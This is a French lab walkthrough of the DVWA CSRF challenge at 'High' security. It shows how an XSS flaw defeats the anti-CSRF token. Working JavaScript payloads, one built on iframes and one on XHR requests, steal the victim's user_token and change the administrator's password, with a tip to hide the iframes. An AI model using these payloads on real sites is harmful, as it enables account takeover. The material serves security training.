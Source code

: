 # Niveau "High"

L’analyse du formulaire indique la présence d’un champ caché nommé "user\_token" (il s'agit d'un jeton anti-CSRF). La valeur de ce champ est régénérée pour chaque requête :

![](../../../../.gitbook/assets/0c0892194f080f693dd38eeb63b57a68.png)

La requête effectuée lors du changement du mot de passe est de type **`GET`** :

![](../../../../.gitbook/assets/0ac49605cff888b7999e10835c367deb.png)

Les premiers tests à faire sont sans doute de vérifier la bonne implémentation du jeton. Que se passe t'il en cas de champ vide ou si le champ n'est pas présent ? Ici l'implémentation semble correcte et le jeton est donc obligatoire :

![](../../../../.gitbook/assets/3e8676642a89f875399827af3216b0c4.png)



Une faille XSS permet de contourner une protection basée sur un jeton anti-CSRF (qu'il soit per-request ou per-session). Cela se fait en deux étapes :

* Une première requête va permettre de récupérer un jeton CSRF présent sur la page du challenge
* Une seconde requête, comprenant le jeton fraîchement récupéré, va modifier le mot de passe de la victime

****

**Exploitation via des iframes**

J'affiche une première `<iframe>` qui va afficher la page du challenge afin de récupérer le jeton. La mécanique de récupération se fait grâce à la méthode `readFrame1()` :

```markup
<iframe src="http://192.168.56.203:8080/vulnerabilities/csrf" onload="readFrame1()" id="frame1"></iframe>
```

Voici la fonction `readFrame1()` (hébergée dans un fichier nommé "csrf.js" sur un serveur malicieux) :

{% code title="csrf.js" %}
```javascript
function readFrame() {
  var token='&user_token=' + document.getElementById("frame1").contentDocument.getElementsByName("user_token")[0].value;
  var link = "http://192.168.56.203:8080/vulnerabilities/csrf?password_new=hacked&password_conf=hacked&Change=Change"+token;
  document.getElementById("frame2").src=link;
}
```
{% endcode %}

La variable `token` va contenir la chaîne suivante : `"&user_token=jeton_csrf_récupérée"`. J'assigne à une seconde `<iframe>` une URL représentant la requête **`GET`** effectuant le changement de mot de passe.

Cette `<iframe>` sera appelée de cette façon :

```markup
<iframe id="frame2"></iframe>
```

Ci-dessous la payload ainsi que son affichage lors de l'exécution. Bien penser à injecter la payload en mode "Low" mais de repasser en mode "High" pour son exploitation :

![](<../../../../.gitbook/assets/3b6e8a0ec33f5961bef8be1b5f820505 (1).png>)

{% hint style="info" %}
Afin de rendre l'attaque plus discrète, il est possible de ne pas afficher les `<iframe>` grâce au style CSS `style="display:none"`
{% endhint %}

Une fois que l'administrateur visitera la page du challenge XSS, son mot de passe sera changé :

![](../../../../.gitbook/assets/1fb2b3663d21dad270b6c81e9e61e79c.png)

**Exploitation via des requêtes XHR**

Un peu plus moderne, il est possible d'effectuer la même attaque en utilisant deux requêtes **`XHR`**. La première va permettre de récupérer le jeton :

```javascript
var xhr = new XMLHttpRequest();
xhr.open('GET', 'http://192.168.56.203:8080/vulnerabilities/csrf', true);
xhr.withCredentials = true;
xhr.responseType = "document";

xhr.onload = function () {
        var token = xhr.response.getElementsByName('user_token')[0].value;
        
        // Exécuter Requête 2, changement de mot de passe
};

xhr.send();
```

Et la seconde, d'effectuer le changement de mot de passe une fois la première requête exécutée (et le jeton récupéré) :

> ```javascript
>    // Requête 2
>    var xhr2 = new XMLHttpRequest();
>    xhr2.open('GET', 'http://192.168.56.203:8080/vulnerabilities/csrf/?password_new=hacked&password_conf=hacked&Change=Change&user_token=' + token, true);
>    xhr2.send();
> ```

La mise en place de la payload s'effectue toujours en se servant de la vulnérabilité XSS en niveau "Low" :

![](../../../../.gitbook/assets/7cf8487e2619f973ab30e38f5ea8f209.png)

Lorsque la victime exécutera la payload XSS cela va déclencher l'attaque CSRF (repasser en "High") :

![](../../../../.gitbook/assets/8016744e58ba30e8ff427294598eacfc.png)

Le mot de passe de l'administrateur a bien été changé suite à sa visite (du challenge XSS) :

![](../../../../.gitbook/assets/94ceb456695bfa0da35e85c676d73400.png)
